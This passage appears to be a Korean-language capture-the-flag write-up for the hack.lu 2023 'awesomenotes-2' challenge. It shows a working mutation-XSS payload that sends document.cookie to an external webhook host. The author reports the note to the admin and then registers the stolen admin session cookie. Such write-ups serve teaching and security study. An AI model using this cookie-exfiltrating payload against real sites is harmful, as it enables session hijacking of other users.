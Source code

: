 Payload를 위와 같이 작성해서 실행시켜보니 아래와 같이 `alert(1)`가 잘 실행되었다.     
    
<img src="/assets/images/ctf/2023/hack.lu/awesomenotes-2/1.PNG" width="700px">    

세션 값을 받아오기 위해 Webhook을 사용하여 Payload를 작성해주었다.   

```html
<math><annotation-xml encoding="text/html"><style><img src=x onerror="javascript:location.href='https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie"></style></annotation-xml></math>
```
    
노트 작성 후, Report 해주면 세션 값이 잘 받아지는 것을 볼 수 있다.   

### Admin Session 
<img src="/assets/images/ctf/2023/hack.lu/awesomenotes-2/2.PNG" width="700px">      
    
### Session Registration in Cookie    
<img src="/assets/images/ctf/2023/hack.lu/awesomenotes-2/3.PNG" width="700px">   
         